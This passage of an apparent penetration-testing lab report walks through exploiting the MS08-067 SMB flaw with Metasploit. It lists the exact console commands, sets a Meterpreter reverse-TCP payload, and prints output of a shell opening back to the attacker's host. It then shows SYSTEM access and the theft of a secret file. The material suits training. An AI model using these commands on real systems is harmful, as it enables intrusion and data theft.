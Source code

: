 We found that in port 445 it runs Windows 2003 or 2008 microsoft-ds service, which could exist a flaw. So we searched the Metasploit database and found an exploit called \lstinline{ms08_067_netapi}. It exploits a parsing flaw through the service. We type the following command in the metasploit console:
\begin{itemize}
	\item \lstinline{use exploit/windows/smb/ms08_067_netapi} 
	\item set RHOST 192.168.233.20
	\item \lstinline{set payload windows/meterpreter/reverse_tcp} 
	\item set LHOST 10.11.12.29
	\item run
	\par \begin{lstlisting}[language=sh,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily, breaklines=true, breakautoindent=true, breakindent=4em]
[*] Started reverse handler on 10.11.12.29:4444 
[*] Automatically detecting the target...
[*] Fingerprint: Windows 2003 - No Service Pack - lang:Unknown
[*] Selected Target: Windows 2003 SP0 Universal
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.233.20
[*] Meterpreter session 2 opened (10.11.12.29:4444 -> 192.168.233.20:1069) at 2014-03-05 00:57:55 +0100
	\end{lstlisting}
	We now get the root access of the machine.By typing \textit{getuid} it shows \lstinline{NT AUTHORITY\SYSTEM}. And we can type other commands to browse the file or view its content. We use \textit{search -f secret.txt} command and found that there do have a file called secret.txt. We opened it, which showed the code:c5zmfVpkSJrFA.
\end{itemize}